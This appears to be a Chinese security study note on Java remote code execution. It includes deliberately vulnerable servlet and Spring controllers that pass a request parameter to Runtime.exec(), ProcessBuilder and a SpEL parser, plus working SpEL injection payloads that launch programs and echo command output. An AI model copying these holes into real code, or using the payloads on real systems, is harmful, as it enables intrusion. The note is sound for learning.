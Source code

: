 ﻿---
title: RCE-Java
categories:
- Network_Security
- Web
- RCE-Java
tags:
- Network_Security
updated: 2024-01-04 20:24:53
---

# RCE-Java

## 1. `exec()` 执行系统命令

1. 涉及函数 `Runtime.getRuntime().exec()`

2. 有漏洞的代码：
    ```java
    package com.endlessshw.controller;
    
    import jakarta.servlet.ServletException;
    import jakarta.servlet.annotation.WebServlet;
    import jakarta.servlet.http.HttpServlet;
    import jakarta.servlet.http.HttpServletRequest;
    import jakarta.servlet.http.HttpServletResponse;
    
    import java.io.BufferedReader;
    import java.io.IOException;
    import java.io.InputStreamReader;
    import java.nio.charset.StandardCharsets;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: 使用 Runtime.getRuntime().exec() 来执行系统命令
     * @date 2023/4/4 14:34
     */
    @WebServlet("/exec")
    public class RceExecController extends HttpServlet {
        @Override
        protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
            request.setCharacterEncoding(String.valueOf(StandardCharsets.UTF_8));
            response.setCharacterEncoding(String.valueOf(StandardCharsets.UTF_8));
            response.setContentType("text/html; charset=utf-8");
    
            String cmd = request.getParameter("cmd");
            // 给页面回显内容的变量
            StringBuilder stringBuffer = new StringBuilder();
            // 用包装类获取命令执行后的结果流
            BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(cmd).getInputStream()));
            // 用于记录一行内容的变量
            String lineContext;
            while ((lineContext = bufferedReader.readLine()) != null) {
                stringBuffer.append(lineContext).append("<br />");
            }
            bufferedReader.close();
            response.getWriter().println(stringBuffer);
        }
    }
    ```

3. `Runtime` 类：

    > Every Java application has a single instance of class Runtime that allows the application to interface with the environment in which the application is running. The current runtime can be obtained from the getRuntime method.

4. 该靶场运行结果如下：
    ![image-20230404145024885](image-20230404145024885.png)

## 2. `ProcessBuilder` 对象通过 `start()` 方法执行系统命令

1. 涉及的类和函数：`ProcessBuilder` 类、`ProcessBuilder` 对象的 `start()` 方法。

2. 实际上，`Runtime.getRuntime().exec()` 的本质上是调用了 `ProcessBuilder` 的 `start()` 方法：
    ![image-20230404145530933](image-20230404145530933.png)

3. 靶场：

    ```java
    package com.endlessshw.controller;
    
    import jakarta.servlet.ServletException;
    import jakarta.servlet.annotation.WebServlet;
    import jakarta.servlet.http.HttpServlet;
    import jakarta.servlet.http.HttpServletRequest;
    import jakarta.servlet.http.HttpServletResponse;
    
    import java.io.BufferedReader;
    import java.io.IOException;
    import java.io.InputStreamReader;
    import java.nio.charset.StandardCharsets;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: 使用 ProcessBuilder.start() 来执行系统命令
     * @date 2023/4/4 14:53
     */
    @WebServlet("/pb")
    public class RcePbController extends HttpServlet {
        @Override
        protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
            request.setCharacterEncoding(String.valueOf(StandardCharsets.UTF_8));
            response.setCharacterEncoding(String.valueOf(StandardCharsets.UTF_8));
            response.setContentType("text/html; charset=utf-8");
    
            String cmd = request.getParameter("cmd");
            StringBuilder stringBuilder = new StringBuilder();
    
            String[] cmdWithArgs = {cmd};
            // processBuilder 的实例化需要传入 list 或者 String[]，用来存放一条命令及其参数
            ProcessBuilder processBuilder = new ProcessBuilder(cmdWithArgs);
            // 执行命令
            Process process = processBuilder.start();
            // 获取被包装的 process 执行结果流
            BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(process.getInputStream()));
            // 用于记录一行内容的变量
            String lineContext;
            while ((lineContext = bufferedReader.readLine()) != null) {
                stringBuilder.append(lineContext).append("<br />");
            }
            bufferedReader.close();
            response.getWriter().println(stringBuilder);
        }
    }
    ```

4. 结果：
    ![image-20230404150816050](image-20230404150816050.png)

## 3. 使用 SpEL 表达式

### 3.1 不带回显的情况

1. > Spring 官方为我们提供了一套非常高级 SpEL 表达式，通过使用表达式，我们可以更加灵活地使用 Spring 框架。

2. 使用 SpringBoot 搭建一个简易的靶场：
    ```java
    package com.endlessshw.spelrce.controller;
    
    import org.springframework.expression.Expression;
    import org.springframework.expression.spel.standard.SpelExpressionParser;
    import org.springframework.web.bind.annotation.GetMapping;
    import org.springframework.web.bind.annotation.RequestMapping;
    import org.springframework.web.bind.annotation.RestController;
    
    import java.util.Objects;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: SpEL RCE 靶场
     * @date 2023/4/4 15:15
     */
    @RestController
    @RequestMapping("/rce")
    public class SpEL_RceController {
        @GetMapping("/spel")
        public String SpELRce(String cmd) {
            // 创建一个 Spel 表达式解析器
            SpelExpressionParser spelExpressionParser = new SpelExpressionParser();
            // 根据传入的 cmd 来创建表达式
            Expression expression = spelExpressionParser.parseExpression(cmd);
            return Objects.requireNonNull(expression.getValue()).toString();
        }
    }
    ```

3. payload:
    `http://localhost:8080/rce/spel?cmd=T(java.lang.Runtime).getRuntime().exec(%22control.exe%22)`
    cmd 传入的内容基本上和 Java 语法相似。由于 `Runtime` 是外部类，因此还需要 `T(类的全路径名).方法()` 来执行代码。
4. 结果：
    ![image-20230404153506298](image-20230404153506298.png)

### 3.2 带回显的情况 -- （少，前提是需要代码将 expression 的结果给 return 出来）

1. 上述靶场中，只使用了最基本的 SpEL 表达式解析器。如果源码中构造了上下文来丰富功能，那么攻击者此时也可以利用上下文“丰富功能”的特性，将结果打印出来。

2. 靶场代码：
    ```java
    @GetMapping("/spelcontext")
    public String SpELRceWithContext(String cmd) {
        // 创建一个 Spel 表达式解析器
        SpelExpressionParser spelExpressionParser = new SpelExpressionParser();
        // 构造上下文，准备表达式需要的上下文数据（用于自定义变量、函数、类型转换器等）
        // Create a new TemplateParserContext with the default "#{" prefix and "}" suffix.
        // 翻译过来就是用 #{} 创建上下文环境，里面的内容就是上下文
        TemplateParserContext templateParserContext = new TemplateParserContext();
        // 根据传入的 cmd 来创建表达式
        Expression expression = spelExpressionParser.parseExpression(cmd, templateParserContext);
        return Objects.requireNonNull(expression.getValue()).toString();
    }
    ```

3. Payload（如果通过 GET 传，要 Url 编码一下）:
    `#{new java.util.Scanner(new java.lang.ProcessBuilder("cmd", "/c", "dir").start().getInputStream(), "GBK").useDelimiter("x").next()};`
4. Payload 解析：
    1. 创建一个 Scanner 类
    2. 用 Scanner 的构造函数：
        ![image-20230404164227873](image-20230404164227873.png)
    3. 使用 `useDelimiter("")` 方法来划界，然后用 `next()` 方法来返回 `Scanner` 中扫描的字符串。
        这里 `useDelimiter("")` 内的内容尽量复杂，这样它分界就分一个界，然后 `next()` 获取全部内容。
5. 当然，如果出现这种情况，可以先使用 `#{算数表达式}` 来看其是否将表达式的结果返回，从而判断其是否存在 RCE：
    Payload：`#{2+2}`（记得 Url 编码）
    ![image-20230404165810531](image-20230404165810531.png)

